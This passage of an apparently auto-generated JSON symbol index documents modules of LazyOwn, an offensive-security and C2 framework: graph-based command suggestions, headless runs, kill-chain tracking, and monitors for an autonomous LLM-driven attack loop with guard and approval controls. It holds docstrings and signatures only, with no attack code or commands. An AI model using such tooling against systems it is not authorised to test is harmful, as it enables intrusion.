config, view_factory)"}, {"kind": "method", "line": 562, "name": "config", "signature": "def config(self)"}, {"doc": "Return the selected item text or ``None`` on cancel / empty input.\n\nWhen there are fewer items than ``activation_threshold`` the picker\nshort-circuits to the single value, preserving readline's normal\nsingle-match auto-insertion semantics for callers that route every\nmatch through the picker.", "kind": "method", "line": 565, "name": "pick", "signature": "def pick(self, items, initial_query)"}, {"kind": "method", "line": 592, "name": "__init__", "signature": "def __init__(self, picker)"}, {"doc": "Wire the picker into ``readline.set_completion_display_matches_hook``.", "kind": "method", "line": 595, "name": "install", "signature": "def install(self)"}, {"doc": "Remove the readline display hook installed by :py:meth:`install`.", "kind": "method", "line": 603, "name": "uninstall", "signature": "def uninstall(self)"}, {"kind": "method", "line": 611, "name": "_on_display_matches", "signature": "def _on_display_matches(self, substitution, matches, longest_match_length)"}, {"kind": "method", "line": 632, "name": "_strip_ansi", "signature": "def _strip_ansi(cls, value)"}, {"kind": "method", "line": 636, "name": "_redraw_prompt", "signature": "def _redraw_prompt()"}]}, {"doc": "Graph-aware advisor backed by the graphify knowledge graph.  This module turns the JSON file produced by ``/graphify`` over the LazyOwn codebase (``graphify-out/graph_lazyown.json`` or any standard graphify ``graph.json``) into a fast, in-memory advisor that powers two new user-experience features:  1. **Human operators** get graph-aware CLI commands — ``graph_search``, ``neighbors``, ``god_nodes``, ``suggest_next`` — and \"did you mean ...?\" recovery when they type an unknown ``do_*`` command. The advisor reads the recent ``LazyOwn_session_report.csv`` and recommends the next command by walking the graph outward from the most recent nodes. 2. **MCP agents** get four token-budget-aware tools so they can ask the knowledge graph for related commands, neighbours, suggestions, and a summary without re-reading the full report each turn.  Design (SOLID):  - ``GraphAdvisorConfig`` centralises every magic value (file paths, budgets, scoring weights, glyphs, token-budget caps). - ``GraphLoader`` is the only piece touching the filesystem. It caches by ``(path, mtime)`` so repeated calls inside one process are free. - ``GraphIndex`` provides O(1) lookups by id, label, and community. - ``GraphScorer`` is a pure ranking primitive (Single Responsibility). - ``GraphAdvisor`` is the orchestrator. It composes loader + index + scorer and exposes the small public surface used by the CLI, the MCP layer, the C2 web UI and the test suite.  The module has zero coupling to ``cmd2``, ``mcp.server``, ``flask`` or ``lazyown.py``. Every public method returns plain Python types so the", "id": "cli/graph_advisor.py", "kind": "module", "label": "graph_advisor.py", "language": "py", "sha256": "58f949a7bb6d49c8", "symbol_count": 52, "symbols": [{"doc": "Centralised constants for the graph advisor.\n\nEvery magic path, budget, weight or glyph lives here. Operators or\ntests can override any field by passing a fresh instance to\n:class:`GraphAdvisor`.", "kind": "class", "line": 50, "name": "GraphAdvisorConfig", "signature": "class GraphAdvisorConfig"}, {"doc": "Immutable view onto a node loaded from the graphify JSON.", "kind": "class", "line": 98, "name": "GraphNode", "signature": "class GraphNode"}, {"doc": "Immutable view onto an edge loaded from the graphify JSON.", "kind": "class", "line": 122, "name": "GraphEdge", "signature": "class GraphEdge"}, {"doc": "Node plus its score and match position metadata.", "kind": "class", "line": 143, "name": "ScoredNode", "signature": "class ScoredNode"}, {"doc": "Load a graphify JSON file with per-process ``(path, mtime)`` cache.", "kind": "class", "line": 151, "name": "GraphLoader", "signature": "class GraphLoader"}, {"doc": "In-memory index over a graphify graph for O(1) lookups.", "kind": "class", "line": 211, "name": "GraphIndex", "signature": "class GraphIndex"}, {"doc": "Pure ranking primitive shared by search and suggest-next.", "kind": "class", "line": 299, "name": "GraphScorer", "signature": "class GraphScorer"}, {"doc": "High-level facade over the graphify knowledge graph.\n\nAll public methods return plain Python lists/dicts so callers can\nserialise to JSON (MCP), render Markdown (CLI) or template HTML (web\nUI) without further translation.", "kind": "class", "line": 354, "name": "GraphAdvisor", "signature": "class GraphAdvisor"}, {"doc": "Render search results as a fixed-width table for the cmd2 shell.", "kind": "function", "line": 691, "name": "format_search_table", "signature": "def format_search_table(results)"}, {"doc": "Render a :py:meth:`GraphAdvisor.neighbors` result as plain text.", "kind": "function", "line": 706, "name": "format_neighbors", "signature": "def format_neighbors(result)"}, {"kind": "function", "line": 724, "name": "format_god_nodes", "signature": "def format_god_nodes(results)"}, {"kind": "function", "line": 734, "name": "format_suggestions", "signature": "def format_suggestions(results)"}, {"doc": "Return a small, JSON-safe summary suitable for MCP responses.", "kind": "method", "line": 109, "name": "to_summary", "signature": "def to_summary(self)"}, {"kind": "method", "line": 132, "name": "to_summary", "signature": "def to_summary(self)"}, {"kind": "method", "line": 156, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Resolve which graphify JSON file to load.\n\nHonours an explicit override; otherwise returns the last path\nsuccessfully loaded through this loader, falling back to a scan\nof :attr:`GraphAdvisorConfig.graph_candidates` inside\n:attr:`GraphAdvisorConfig.graphify_dir`. Returns ``None`` when no\ngraph is available so callers can present a clear \"graph\nmissing\" message instead of crashing.", "kind": "method", "line": 160, "name": "resolve_path", "signature": "def resolve_path(self, override)"}, {"kind": "method", "line": 184, "name": "load", "signature": "def load(self, override)"}, {"kind": "method", "line": 207, "name": "clear_cache", "signature": "def clear_cache(cls)"}, {"kind": "method", "line": 214, "name": "__init__", "signature": "def __init__(self, data)"}, {"kind": "method", "line": 223, "name": "_build", "signature": "def _build(self)"}, {"kind": "method", "line": 277, "name": "nodes", "signature": "def nodes(self)"}, {"kind": "method", "line": 280, "name": "get", "signature": "def get(self, node_id)"}, {"kind": "method", "line": 283, "name": "neighbors", "signature": "def neighbors(self, node_id)"}, {"kind": "method", "line": 286, "name": "edges_between", "signature": "def edges_between(self, source, target)"}, {"kind": "method", "line": 289, "name": "community_members", "signature": "def community_members(self, community_id)"}, {"kind": "method", "line": 292, "name": "degree", "signature": "def degree(self, node_id)"}, {"kind": "method", "line": 295, "name": "degree_ranked", "signature": "def degree_ranked(self)"}, {"kind": "method", "line": 304, "name": "__init__", "signature": "def __init__(self, config)"}, {"kind": "method", "line": 307, "name": "rank", "signature": "def rank(self, nodes, query)"}, {"kind": "method", "line": 319, "name": "_best_score", "signature": "def _best_score(self, node, terms, raw_query)"}, {"kind": "method", "line": 335, "name": "_score", "signature": "def _score(self, value, terms, query)"}, {"kind": "method", "line": 350, "name": "_tokens", "signature": "def _tokens(self, query)"}, {"kind": "method", "line": 362, "name": "__init__", "signature": "def __init__(self, config, loader, index, scorer)"}, {"kind": "method", "line": 375, "name": "from_path", "signature": "def from_path(cls, path, config)"}, {"kind": "method", "line": 384, "name": "is_available", "signature": "def is_available(self)"}, {"kind": "method", "line": 387, "name": "reload", "signature": "def reload(self, path)"}, {"kind": "method", "line": 396, "name": "summary", "signature": "def summary(self)"}, {"kind": "method", "line": 423, "name": "_graph_age_days", "signature": "def _graph_age_days(self, path)"}, {"kind": "method", "line": 432, "name": "_classify_health", "signature": "def _classify_health(self, edges_count, age_days)"}, {"kind": "method", "line": 445, "name": "search", "signature": "def search(self, query, limit)"}, {"kind": "method", "line": 456, "name": "neighbors", "signature": "def neighbors(self, node_query, depth, limit)"}, {"kind": "method", "line": 505, "name": "god_nodes", "signature": "def god_nodes(self, limit)"}, {"doc": "Suggest next commands by walking the graph outward from recent ones.\n\n``recent_commands`` is a list of command identifiers — typically\nread from ``sessions/LazyOwn_session_report.csv``. The suggestion\nscore is the weighted sum of inverse-distance contributions from\nevery recent seed, with an exponential decay configured on\n:class:`GraphAdvisorConfig`. Nodes that *are* recent commands are\ndeprioritised so the suggestion is always forward-looking.", "kind": "method", "line": 520, "name": "suggest_next", "signature": "def suggest_next(self, recent_commands, limit)"}, {"doc": "Read the last N executed commands from the session transcript.", "kind": "method", "line": 566, "name": "read_recent_commands", "signature": "def read_recent_commands(self, window)"}, {"kind": "method", "line": 591, "name": "did_you_mean", "signature": "def did_you_mean(self, query, limit)"}, {"doc": "Trim list fields in-place so the JSON dump fits a token budget.", "kind": "method", "line": 605, "name": "truncate_to_budget", "signature": "def truncate_to_budget(self, payload, budget_tokens)"}, {"kind": "method", "line": 624, "name": "_seed_nodes", "signature": "def _seed_nodes(self, recent_commands)"}, {"kind": "method", "line": 638, "name": "_resolve_query", "signature": "def _resolve_query(self, query)"}, {"kind": "method", "line": 649, "name": "_bfs_distance", "signature": "def _bfs_distance(index, start, max_hops)"}, {"kind": "method", "line": 665, "name": "_iter_all_edges", "signature": "def _iter_all_edges(index)"}, {"kind": "method", "line": 675, "name": "_ensure_index", "signature": "def _ensure_index(self)"}, {"kind": "method", "line": 684, "name": "_missing_reason", "signature": "def _missing_reason(self)"}]}, {"doc": "Textual overlay over :mod:`cli.graph_advisor`.  The overlay visualises the same data ``god_nodes`` and ``neighbors`` already expose as text. The operator types a focus node, sees the matching seed plus its neighbours grouped by hop, and switches between \"god nodes\" (highest-degree) and \"neighbors of <node>\" modes from a single screen.  Design (SOLID):  - Single Responsibility: :class:`GraphOverlayConfig` owns constants, :class:`GraphOverlayState` calls into :class:`GraphAdvisor` and normalises the results, :class:`GraphOverlayApp` renders. - Open/Closed: a new view mode is one ``View`` enum entry plus one branch in :meth:`GraphOverlayState.snapshot`. - Dependency Inversion: the state takes a callable that returns a :class:`GraphAdvisor`-shaped object so tests pass a fake. - No magic numbers / hardcoded paths: every value lives in the config. - Textual is imported lazily — :func:`launch_overlay` returns ``None`` when Textual is missing or the graph is unavailable.", "id": "cli/graph_overlay.py", "kind": "module", "label": "graph_overlay.py", "language": "py", "sha256": "f0cbc4c642761bbb", "symbol_count": 26, "symbols": [{"doc": "Two view modes the overlay toggles between.", "kind": "class", "line": 33, "name": "GraphOverlayView", "signature": "class GraphOverlayView(StrEnum)"}, {"doc": "Centralised constants for the overlay.", "kind": "class", "line": 41, "name": "GraphOverlayConfig", "signature": "class GraphOverlayConfig"}, {"doc": "One render-ready row.", "kind": "class", "line": 59, "name": "GraphOverlayItem", "signature": "class GraphOverlayItem"}, {"doc": "Pure data layer for the overlay.", "kind": "class", "line": 69, "name": "GraphOverlayState", "signature": "class GraphOverlayState"}, {"kind": "function", "line": 181, "name": "_default_advisor_factory", "signature": "def _default_advisor_factory()"}, {"doc": "Wire the canonical state used by :func:`launch_overlay`.", "kind": "function", "line": 192, "name": "build_state", "signature": "def build_state(config, advisor_factory)"}, {"doc": "Open the overlay and return the last-focused node id on exit.\n\nArgs:\n    payload: Loaded ``payload.json``.\n    state: Optional pre-built state.\n    runner: Optional callable used by tests.\n\nReturns:\n    The last focused node id, or ``None`` when cancelled / Textual\n    unavailable.", "kind": "function", "line": 203, "name": "launch_overlay", "signature": "def launch_overlay(payload, state, runner)"}, {"kind": "function", "line": 235, "name": "_build_app", "signature": "def _build_app(state, theme)"}, {"doc": "Return ``True`` when the underlying graph advisor has data.", "kind": "method", "line": 77, "name": "is_available", "signature": "def is_available(self)"}, {"doc": "Replace the focus query.", "kind": "method", "line": 87, "name": "set_focus", "signature": "def set_focus(self, value)"}, {"doc": "Switch between god-nodes and neighbors-of-focus.", "kind": "method", "line": 95, "name": "toggle_view", "signature": "def toggle_view(self)"}, {"doc": "Return ``(header, items)`` for the current view.", "kind": "method", "line": 102, "name": "snapshot", "signature": "def snapshot(self)"}, {"kind": "method", "line": 111, "name": "_god_nodes", "signature": "def _god_nodes(self, advisor)"}, {"kind": "method", "line": 119, "name": "_neighbors", "signature": "def _neighbors(self, advisor)"}, {"kind": "method", "line": 147, "name": "_row", "signature": "def _row(self, payload, badge)"}, {"kind": "method", "line": 159, "name": "_edge_badge", "signature": "def _edge_badge(self, edges)"}, {"kind": "method", "line": 169, "name": "_truncate", "signature": "def _truncate(self, value)"}, {"kind": "method", "line": 174, "name": "_advisor", "signature": "def _advisor(self)"}, {"kind": "class", "line": 246, "name": "_GraphOverlayApp", "signature": "class _GraphOverlayApp(App)"}, {"kind": "method", "line": 260, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 265, "name": "compose", "signature": "def compose(self)"}, {"kind": "method", "line": 273, "name": "on_mount", "signature": "def on_mount(self)"}, {"kind": "method", "line": 276, "name": "on_input_changed", "signature": "def on_input_changed(self, event)"}, {"kind": "method", "line": 280, "name": "action_toggle_view", "signature": "def action_toggle_view(self)"}, {"kind": "method", "line": 284, "name": "action_close", "signature": "def action_close(self)"}, {"kind": "method", "line": 287, "name": "_refresh", "signature": "def _refresh(self)"}]}, {"doc": "Headless / non-interactive runner for automated pipelines.  Provides HeadlessRunner which wraps LazyOwnShell and produces structured JSON output suitable for CI/CD and agent-driven ops.", "id": "cli/headless.py", "kind": "module", "label": "headless.py", "language": "py", "sha256": "b2a4b235af769b84", "symbol_count": 6, "symbols": [{"doc": "Load a YAML profile that overrides payload.json keys.\n\nArgs:\n    path: filesystem path to the YAML profile.\n\nReturns:\n    Dictionary of config overrides.\n\nRaises:\n    FileNotFoundError: profile not found.\n    yaml.YAMLError: malformed YAML.", "kind": "function", "line": 31, "name": "load_profile", "signature": "def load_profile(path)"}, {"doc": "Merge profile values into config (shallow overlay).\n\nArgs:\n    config: base configuration dictionary (e.g. shell.params).\n    profile: override dictionary from profile file.\n\nReturns:\n    Updated config (same reference).", "kind": "function", "line": 48, "name": "apply_profile", "signature": "def apply_profile(config, profile)"}, {"doc": "Non-interactive runner that executes commands and emits structured output.\n\nUsage:\n    shell = LazyOwnShell()\n    runner = HeadlessRunner(shell, json_output=True)\n    runner.run_command(\"nmap_scan\")\n    sys.exit(runner.exit_code)", "kind": "class", "line": 62, "name": "HeadlessRunner", "signature": "class HeadlessRunner"}, {"kind": "method", "line": 72, "name": "__init__", "signature": "def __init__(self, shell, json_output, profile_path)"}, {"doc": "Execute a single command, capture output, return structured result.\n\nArgs:\n    cmd: command string to execute via onecmd.\n    timeout: optional timeout in seconds (not yet enforced).\n\nReturns:\n    Dict with keys: command, success, output, error, duration_ms.", "kind": "method", "line": 87, "name": "run_command", "signature": "def run_command(self, cmd, timeout)"}, {"doc": "Execute multiple commands and emit final summary.\n\nArgs:\n    commands: list of command strings to execute sequentially.\n\nReturns:\n    List of result dicts, one per command.", "kind": "method", "line": 132, "name": "run_chain", "signature": "def run_chain(self, commands)"}]}, {"doc": "Self-populating kill-chain progress derived from the daemon event stream.  This module exists for backward compatibility. The canonical phase definitions and progress computation now live in ``modules.killchain.KillChain``, which already wraps ``WorldModel`` and raw ``world_model.json``. Consumers should migrate there.  For daemon-event-stream-based progress that includes per-phase activity and reward statistics, the :func:`compute_killchain` function remains.", "id": "cli/killchain.py", "kind": "module", "label": "killchain.py", "language": "py", "sha256": "247cb422c3cf9c1b", "symbol_count": 4, "symbols": [{"doc": "Computed progress for a single kill-chain phase.\n\nAttributes:\n    key: Canonical phase identifier (e.g. ``recon``).\n    label: Human-readable phase label (e.g. ``Recon``).\n    state: One of :data:`STATE_DONE`, :data:`STATE_ACTIVE`,\n        :data:`STATE_PENDING`.\n    activity: Number of daemon step events observed in this phase.\n    reward: Sum of step rewards recorded in this phase.", "kind": "class", "line": 29, "name": "PhaseProgress", "signature": "class PhaseProgress"}, {"doc": "Return the phase an event belongs to, empty string if absent.", "kind": "function", "line": 48, "name": "_phase_from_event", "signature": "def _phase_from_event(event)"}, {"doc": "Resolve the active phase from events, falling back to the world model.\n\nArgs:\n    events: Daemon events ordered oldest first.\n    world: Parsed ``world_model.json`` snapshot.\n    phase_keys: Ordered list of canonical phase identifiers.\n\nReturns:\n    The active phase identifier, or an empty string when unknown.", "kind": "function", "line": 58, "name": "_detect_current_phase", "signature": "def _detect_current_phase(events, world, phase_keys)"}, {"doc": "Compute kill-chain progress from daemon events and the world model.\n\nA phase is marked *done* when the engagement has advanced past it (its index\nis below the active phase) or the world model explicitly lists it as\ncompleted. The active phase is *active*; everything after it is *pending*.\nPer-phase activity counts and accumulated reward are derived from the step\nevents regardless of state.\n\nArgs:\n    events: Daemon events ordered oldest first (see\n        :func:`cli.reasoning_stream.read_raw_events`).\n    world: Optional ``world_model.json`` snapshot used as a fallback for the\n        current phase and for an explicit ``completed_phases`` list.\n    phases: Ordered ``(key, label)`` pairs describing the kill chain.\n\nReturns:\n    One :class:`PhaseProgress` per phase, in kill-chain order.", "kind": "function", "line": 83, "name": "compute_killchain", "signature": "def compute_killchain(events, world, phases)"}]}, {"doc": "Live worker-visibility monitor for the autonomous loop.  The loop is never a black box: every worker's tool calls, results, guard decisions, approvals, traffic and findings stream into a multi-pane Textual view. Two modes share the same rendering:  - attach (``lazy_view [task]``): tails the task's store files, so it works from a second terminal while ``lazy_loop`` runs elsewhere and keeps working after the run for audit; - embedded (``lazy_loop --view``): the runner starts the engine inside this app and also streams the executor's raw output live.  Keys: ``q`` quit, ``p``/``r`` pause/resume, ``a``/``d`` approve/deny first pending intercept, ``h`` hint, ``s`` steer, ``k`` kill, ``f`` findings, ``g`` guard, ``t`` traffic, ``1``..``5`` focus a worker.", "id": "cli/lazy_monitor.py", "kind": "module", "label": "lazy_monitor.py", "language": "py", "sha256": "173cc7da3dc3c3eb", "symbol_count": 46, "symbols": [{"doc": "One-line modal used for hints and steering messages.", "kind": "class", "line": 61, "name": "PromptModal", "signature": "class PromptModal"}, {"doc": "Multi-pane loop monitor with operator controls.", "kind": "class", "line": 89, "name": "LazyMonitorApp", "signature": "class LazyMonitorApp"}, {"doc": "Inject a hint without a live engine instance (attach mode).", "kind": "function", "line": 566, "name": "_hint_via_graph", "signature": "def _hint_via_graph(task_id, text)"}, {"doc": "Attach the monitor to an existing task (never blocks the loop).\n\nArgs:\n    task_id: Task to inspect (empty picks the newest task).\n\nReturns:\n    App exit payload (unused by attach mode, kept for symmetry).", "kind": "function", "line": 575, "name": "run_monitor_command", "signature": "def run_monitor_command(task_id)"}, {"doc": "Run the loop inside the monitor (``lazy_loop --view``).\n\nArgs:\n    engine: Bound :class:`LazyEngine`.\n    config: :class:`modules.lazy_runner.LoopRunConfig`.\n    params: Payload mapping (kept for signature parity).\n\nReturns:\n    Orchestrator summary produced by the embedded run.", "kind": "function", "line": 589, "name": "run_monitor_session", "signature": "def run_monitor_session(engine, config, params)"}, {"doc": "Store the modal labels.", "kind": "method", "line": 66, "name": "__init__", "signature": "def __init__(self, title, placeholder)"}, {"doc": "Title plus a single input line.", "kind": "method", "line": 72, "name": "compose", "signature": "def compose(self)"}, {"doc": "Dismiss with the typed value.", "kind": "method", "line": 80, "name": "on_input_submitted", "signature": "def on_input_submitted(self, event)"}, {"doc": "Escape closes with an empty value.", "kind": "method", "line": 84, "name": "action_dismiss", "signature": "def action_dismiss(self, value)"}, {"doc": "Bind the monitor to a task and optionally embed a live engine.", "kind": "method", "line": 124, "name": "__init__", "signature": "def __init__(self, task_id, engine, config, params)"}, {"doc": "Build the split view: stages, worker panes, audit tabs.", "kind": "method", "line": 140, "name": "compose", "signature": "def compose(self)"}, {"doc": "Resolve the task, wire pane logs and start polling.", "kind": "method", "line": 168, "name": "on_mount", "signature": "def on_mount(self)"}, {"doc": "Pick the newest task when none was given.", "kind": "method", "line": 192, "name": "_resolve_task", "signature": "def _resolve_task(self)"}, {"doc": "Create one incremental reader per audited stream.", "kind": "method", "line": 203, "name": "_init_tails", "signature": "def _init_tails(self)"}, {"doc": "Run the embedded orchestration in a background thread.", "kind": "method", "line": 213, "name": "_start_engine", "signature": "def _start_engine(self)"}, {"doc": "Store the engine summary and announce completion.", "kind": "method", "line": 246, "name": "_finish", "signature": "def _finish(self, result)"}, {"doc": "Tail every store, update panes, stages and approvals.", "kind": "method", "line": 252, "name": "_poll", "signature": "def _poll(self)"}, {"doc": "Current graph overview (never raises).", "kind": "method", "line": 263, "name": "_overview", "signature": "def _overview(self)"}, {"doc": "Route new activity rows to the worker panes and activity tab.", "kind": "method", "line": 270, "name": "_drain_activity", "signature": "def _drain_activity(self)"}, {"doc": "Render new guard audit rows.", "kind": "method", "line": 290, "name": "_drain_guard", "signature": "def _drain_guard(self)"}, {"doc": "Render new traffic records.", "kind": "method", "line": 304, "name": "_drain_traffic", "signature": "def _drain_traffic(self)"}, {"doc": "Show the pending approval queue with its decision keys.", "kind": "method", "line": 313, "name": "_render_approvals", "signature": "def _render_approvals(self)"}, {"doc": "Refresh the findings tab from the exploration graph.", "kind": "method", "line": 332, "name": "_render_findings", "signature": "def _render_findings(self)"}, {"doc": "Render the orchestrator chain milestones plus counters.", "kind": "method", "line": 351, "name": "_render_stages", "signature": "def _render_stages(self, overview)"}, {"doc": "Append a raw line to the activity transcript.", "kind": "method", "line": 387, "name": "_append_activity", "signature": "def _append_activity(self, text, style)"}, {"doc": "Safe write to the activity log.", "kind": "method", "line": 392, "name": "_append_activity_text", "signature": "def _append_activity_text(self, line)"}, {"doc": "Return the newest running/open intent for steer/kill actions.", "kind": "method", "line": 399, "name": "_running_intent", "signature": "def _running_intent(self)"}, {"doc": "Pause the task between worker steps.", "kind": "method", "line": 409, "name": "action_pause", "signature": "def action_pause(self)"}, {"doc": "Resume a paused task.", "kind": "method", "line": 417, "name": "action_resume", "signature": "def action_resume(self)"}, {"doc": "Approve the first pending intercept.", "kind": "method", "line": 425, "name": "action_approve", "signature": "def action_approve(self)"}, {"doc": "Deny the first pending intercept.", "kind": "method", "line": 429, "name": "action_deny", "signature": "def action_deny(self)"}, {"doc": "Decide the first pending approval.", "kind": "method", "line": 433, "name": "_decide", "signature": "def _decide(self, verdict)"}, {"doc": "Inject an operator hint for the next planner round.", "kind": "method", "line": 445, "name": "action_hint", "signature": "def action_hint(self)"}, {"doc": "Send a mid-run correction to the newest running intent.", "kind": "method", "line": 460, "name": "action_steer", "signature": "def action_steer(self)"}, {"doc": "Kill the newest running intent.", "kind": "method", "line": 477, "name": "action_kill", "signature": "def action_kill(self)"}, {"doc": "Focus the findings tab.", "kind": "method", "line": 489, "name": "action_tab_findings", "signature": "def action_tab_findings(self)"}, {"doc": "Focus the guard tab.", "kind": "method", "line": 493, "name": "action_tab_guard", "signature": "def action_tab_guard(self)"}, {"doc": "Focus the traffic tab.", "kind": "method", "line": 497, "name": "action_tab_traffic", "signature": "def action_tab_traffic(self)"}, {"doc": "Activate one bottom tab by id.", "kind": "method", "line": 501, "name": "_focus_tab", "signature": "def _focus_tab(self, tab_id)"}, {"doc": "Scroll the matching worker pane into view.", "kind": "method", "line": 508, "name": "action_focus_worker", "signature": "def action_focus_worker(self, index)"}, {"doc": "Switch the monitor to the next task in the store.", "kind": "method", "line": 518, "name": "action_next_task", "signature": "def action_next_task(self)"}, {"doc": "Drop tails, panes and caches so the next poll reloads cleanly.", "kind": "method", "line": 537, "name": "_reset_view", "signature": "def _reset_view(self)"}, {"kind": "function", "line": 217, "name": "_stream", "signature": "def _stream(line)"}, {"kind": "function", "line": 225, "name": "_run", "signature": "def _run()"}, {"kind": "function", "line": 448, "name": "_done", "signature": "def _done(text)"}, {"kind": "function", "line": 467, "name": "_done", "signature": "def _done(text)"}]}, {"doc": "Orchestrator admin console for the autonomous loop.  A Textual TUI in the spirit of the marketplace configurator:  - Now: what the loop is executing right now (task, stages, live activity tail, per-worker current command); - Config: every payload knob the runner reads (rounds, workers, heartbeat, verb timeout, agentic flags, NOA, proxy); - Models: the LLM failover chain (add/remove members); - Guard: the intercept rules (add/remove).  Edits persist straight to ``payload.json`` (or a sandbox path in tests) through ``core.config``; nothing else mutates global state.", "id": "cli/lazy_orchestrator.py", "kind": "module", "label": "lazy_orchestrator.py", "language": "py", "sha256": "4b3aae947b82a528", "symbol_count": 43, "symbols": [{"doc": "One editable payload knob.", "kind": "class", "line": 59, "name": "ConfigField", "signature": "class ConfigField"}, {"doc": "Generic key/value modal used for models and guard rules.", "kind": "class", "line": 81, "name": "FormModal", "signature": "class FormModal"}, {"doc": "Admin console: Now / Config / Models / Guard.", "kind": "class", "line": 118, "name": "LazyOrchestratorApp", "signature": "class LazyOrchestratorApp"}, {"doc": "Coerce a form string into bool/int when it clearly is one.", "kind": "function", "line": 634, "name": "_coerce", "signature": "def _coerce(raw)"}, {"doc": "Launch the admin console (attach mode).", "kind": "function", "line": 651, "name": "run_orchestrator_console", "signature": "def run_orchestrator_console(task_id)"}, {"doc": "Store the title and (id, label, placeholder) field specs.", "kind": "method", "line": 86, "name": "__init__", "signature": "def __init__(self, title, fields)"}, {"doc": "One labeled input per field plus a save button.", "kind": "method", "line": 92, "name": "compose", "signature": "def compose(self)"}, {"doc": "Collect the values and close the modal.", "kind": "method", "line": 101, "name": "on_button_pressed", "signature": "def on_button_pressed(self, event)"}, {"doc": "Enter commits the form like the save button.", "kind": "method", "line": 110, "name": "on_input_submitted", "signature": "def on_input_submitted(self, event)"}, {"doc": "Bind the console to a payload file and an optional task.", "kind": "method", "line": 142, "name": "__init__", "signature": "def __init__(self, payload_path, task_id)"}, {"doc": "Build the four panes.", "kind": "method", "line": 152, "name": "compose", "signature": "def compose(self)"}, {"doc": "Load the payload into the form and refresh the data tables.", "kind": "method", "line": 177, "name": "on_mount", "signature": "def on_mount(self)"}, {"doc": "Flip one pipeline stage on/off and persist it.", "kind": "method", "line": 187, "name": "toggle_stage", "signature": "def toggle_stage(self, name)"}, {"doc": "Flip one auto verb on/off and persist it.", "kind": "method", "line": 196, "name": "toggle_verb", "signature": "def toggle_verb(self, name)"}, {"doc": "Register a new operator-defined auto verb.", "kind": "method", "line": 205, "name": "add_auto_verb", "signature": "def add_auto_verb(self, name, keywords, needs_target, description)"}, {"doc": "Delete a custom verb, or disable a built-in one.", "kind": "method", "line": 220, "name": "remove_auto_verb", "signature": "def remove_auto_verb(self, name)"}, {"doc": "Render the pipeline stages with their firing condition.", "kind": "method", "line": 228, "name": "_refresh_stages", "signature": "def _refresh_stages(self)"}, {"doc": "Render the auto verbs with source, state and keywords.", "kind": "method", "line": 244, "name": "_refresh_verbs", "signature": "def _refresh_verbs(self)"}, {"doc": "Load the payload mapping (empty on failure).", "kind": "method", "line": 268, "name": "_load_payload", "signature": "def _load_payload(self)"}, {"doc": "Fill the config inputs with the current payload values.", "kind": "method", "line": 278, "name": "_load_payload_into_form", "signature": "def _load_payload_into_form(self)"}, {"doc": "Merge the given keys into the payload and persist it.\n\nArgs:\n    values: Mapping of payload keys to new values (strings).\n\nReturns:\n    The updated payload mapping.", "kind": "method", "line": 289, "name": "save_config", "signature": "def save_config(self, values)"}, {"doc": "Append one LLM chain member; returns the stored name.", "kind": "method", "line": 311, "name": "add_model_member", "signature": "def add_model_member(self, name, model, priority)"}, {"doc": "Drop one LLM chain member by name.", "kind": "method", "line": 319, "name": "remove_model_member", "signature": "def remove_model_member(self, name)"}, {"doc": "Change one LLM member's failover rank and repaint the table.", "kind": "method", "line": 327, "name": "set_model_priority", "signature": "def set_model_priority(self, name, priority)"}, {"doc": "Register one guard intercept rule.", "kind": "method", "line": 339, "name": "add_guard_rule", "signature": "def add_guard_rule(self, pattern, action, reason)"}, {"doc": "Delete one guard rule by exact pattern.", "kind": "method", "line": 347, "name": "remove_guard_rule", "signature": "def remove_guard_rule(self, pattern)"}, {"doc": "Render the LLM chain into the models table.", "kind": "method", "line": 355, "name": "_refresh_models", "signature": "def _refresh_models(self)"}, {"doc": "Render the guard rules into the guard table.", "kind": "method", "line": 376, "name": "_refresh_guard", "signature": "def _refresh_guard(self)"}, {"doc": "Pick the requested task or the newest running/running-ish one.", "kind": "method", "line": 398, "name": "_resolve_task", "signature": "def _resolve_task(self)"}, {"doc": "Tail the active task's activity into the Now pane.", "kind": "method", "line": 416, "name": "_poll_now", "signature": "def _poll_now(self)"}, {"doc": "Handle the config save button.", "kind": "method", "line": 451, "name": "on_button_pressed", "signature": "def on_button_pressed(self, event)"}, {"doc": "Reload tables and form from disk.", "kind": "method", "line": 469, "name": "action_refresh", "signature": "def action_refresh(self)"}, {"doc": "Return the row key of the selected row, or empty string.", "kind": "method", "line": 477, "name": "_selected_row", "signature": "def _selected_row(self, table_id)"}, {"doc": "Toggle the selected stage or auto verb.", "kind": "method", "line": 486, "name": "action_toggle_item", "signature": "def action_toggle_item(self)"}, {"doc": "Save the form values (keyboard shortcut).", "kind": "method", "line": 498, "name": "action_save_config", "signature": "def action_save_config(self)"}, {"doc": "Return the active tab id.", "kind": "method", "line": 508, "name": "_active_tab", "signature": "def _active_tab(self)"}, {"doc": "Open the add modal for the active tab.", "kind": "method", "line": 515, "name": "action_add_item", "signature": "def action_add_item(self)"}, {"doc": "Edit the selected LLM member's priority (models tab only).", "kind": "method", "line": 575, "name": "action_edit_item", "signature": "def action_edit_item(self)"}, {"doc": "Delete the selected row in the active tab.", "kind": "method", "line": 609, "name": "action_delete_item", "signature": "def action_delete_item(self)"}, {"kind": "function", "line": 588, "name": "_done", "signature": "def _done(values)"}, {"kind": "function", "line": 520, "name": "_done", "signature": "def _done(values)"}, {"kind": "function", "line": 537, "name": "_done_rule", "signature": "def _done_rule(values)"}, {"kind": "function", "line": 554, "name": "_done_verb", "signature": "def _done_verb(values)"}]}, {"doc": "Post-scan side effects executed at the tail of ``do_lazynmap``.  Three artefacts are produced after every successful scan:  1. ``sessions/recon_plan_<target>.md`` — operator + LLM-readable plan generated by :func:`cli.recon_plan.build_recon_plan`. 2. ``sessions/world_model.json`` — phase bumped to ``enum`` so the daemon / autonomous loop / status bar agree we have just transitioned past pure recon. 3. ``sessions/autonomous_events.jsonl`` — one ``lazynmap.recon_plan`` event so MCP consumers (``lazyown_poll_events`` and the dashboard) see the transition.  Every step is best-effort: failure in one branch must not block the others or propagate back into :class:`LazyOwnShell`. The implementation is pure Python (no ``cmd2``, ``rich`` or ``flask`` imports) so the suite can exercise it with hand-rolled fixtures.", "id": "cli/lazynmap_post.py", "kind": "module", "label": "lazynmap_post.py", "language": "py", "sha256": "9f51856e33e14116", "symbol_count": 9, "symbols": [{"doc": "Immutable configuration for :func:`run_post_scan`.\n\nEvery default mirrors a key already documented in ``CLAUDE.md`` so\nthe operator can adjust behaviour via ``payload.json`` without\ntouching code.", "kind": "class", "line": 57, "name": "PostScanConfig", "signature": "class 